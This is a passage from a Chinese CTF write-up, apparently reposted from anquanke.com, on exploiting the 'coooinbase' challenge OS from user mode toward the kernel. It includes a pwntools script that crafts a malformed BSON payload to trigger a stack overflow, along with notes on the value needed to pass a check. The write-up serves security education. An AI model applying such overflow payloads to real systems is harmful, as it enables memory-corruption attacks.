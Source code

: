 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/242627)

> 本篇文章是 coooinbase 这道题的内核态利用。作为上一篇文章 PWN 掉一款小型开源 OS——用户态利用的续篇，本文将解决上文遗留下的一些问题，并分析从 userland 到 kerneland 的利用机会。

[![](https://p3.ssl.qhimg.com/t01f4ae3bee0d8aeb12.png)](https://p3.ssl.qhimg.com/t01f4ae3bee0d8aeb12.png)

本篇文章是 coooinbase 这道题的内核态利用。作为上一篇文章`PWN掉一款小型开源OS——用户态利用`的续篇，本文将解决上文遗留下的一些问题，并分析从 userland 到 kerneland 的利用机会。

遗留下的问题
------

```
from pwn import *
import bson

context.arch = 'aarch64'

obj = {
    'CVC':111,
    'MON':1,
    'YR': 2021
}
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x10)
bs += b'A'*(0x60)
bs += b'\x00'
bs += b'\x00'

print(b64e(bs)+' ')
```

若按照上一篇文章的 bson 结构去构造 payload，即`'CVC':111`，当 payload 大于一定长度时会导致不能到达以下分支，没法触发漏洞

[![](https://p3.ssl.qhimg.com/t01dd4deab2dd1c566d.png)](https://p3.ssl.qhimg.com/t01dd4deab2dd1c566d.png)

原因是`copy_payload`的返回值不为 0

[![](https://p4.ssl.qhimg.com/t01ed8d913792129880.png)](https://p4.ssl.qhimg.com/t01ed8d913792129880.png)

让`copy_payload`执行到这个分支即可返回 0，经过测试`'CVC':545`能通过 check

[![](https://p1.ssl.qhimg.com/t013175215ea4da6dad.png)](https://p1.ssl.qhimg.com/t013175215ea4da6dad.png)

按以下方法构造 bson 序列，便能发送长字符串，并触发栈溢出
